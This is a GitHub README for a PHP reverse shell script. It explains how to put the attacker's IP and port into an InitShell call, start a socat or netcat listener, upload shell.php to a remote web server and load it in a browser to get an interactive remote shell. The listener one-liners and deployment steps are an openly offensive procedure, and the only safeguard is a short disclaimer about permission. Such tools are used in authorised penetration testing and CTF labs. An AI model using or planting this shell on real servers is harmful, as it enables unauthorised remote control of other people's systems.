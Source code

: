 # PHP Reverse Shell

This is an easy-to-use PHP script that helps you get a command-line interface (a "shell") on a remote computer.


## What It Does

* **Full Control:** Gives you a real command-line on the remote computer, so you can type commands just like you normally would.
* **Smart Setup:** It handles all the complex parts of getting the shell to work correctly in your terminal.
* **Works Reliably:** It tries different ways to run commands, so it's more likely to work on various systems.
* **Quick to Use:** Designed for fast setup and deployment.

## What You Need

* **On the Remote Computer:**
    * PHP installed.
    * The `proc_open()` function **must be turned on** in PHP's settings (`php.ini`). This is essential for the script to work.
* **On Your Computer:**
    * A program like `netcat` (`nc`) or `socat` to "listen" for the connection.


## How to Use It

1.  **Change the Script:**
    Open the PHP script (you can name it `shell.php`) and find the line at the very bottom that looks like this:

    ```php
    InitShell('IP', PORT);
    ```
    Replace `'IP'` with your computer's IP address and `'PORT'` with a port number you choose (e.g., `4444`).

    *Example: `InitShell('10.10.14.5', 4444);`*

2.  **Start Listening:**
    On your computer, open a terminal (command prompt) and start your listener:

    ```bash
    # Best option
    socat file:`tty`,raw,echo=0 tcp-listen:PORT

    # A simpler option if socat isn't available
    nc -lvnp PORT
    ```

3.  **Run It on the Remote Computer:**
    Upload your modified `shell.php` script to the remote computer.
    **If it's on a website:** Just visit it's web address in a browser (e.g., `http://example-site.com/shell.php`).

4.  **You're Connected!**
    Your listener should show a new connection, and you'll have a working command-line from the remote computer.



## CAUTION!

* **Use Responsibly:** This tool is for learning and testing **only**. Never use it on computers you don't own or don't have permission to access. Doing so is illegal.
* **`proc_open()` is a Must:** If the shell doesn't connect, the most common reason is that the `proc_open()` function is turned off in the remote computer's PHP settings.


## Credits

* **Written by:** santeri@bittisilta.fi
* **Website:** [https://bittisilta.fi](https://bittisilta.fi)
* **TryHackMe:** [https://tryhackme.com/p/santeri1337](https://tryhackme.com/p/santeri1337) [![TryHackMe Badge](https://tryhackme-badges.s3.amazonaws.com/santeri1337.png)](https://tryhackme.com/p/santeri1337)

* **GitHub:** [https://github.com/santeri1337](https://github.com/santeri1337)
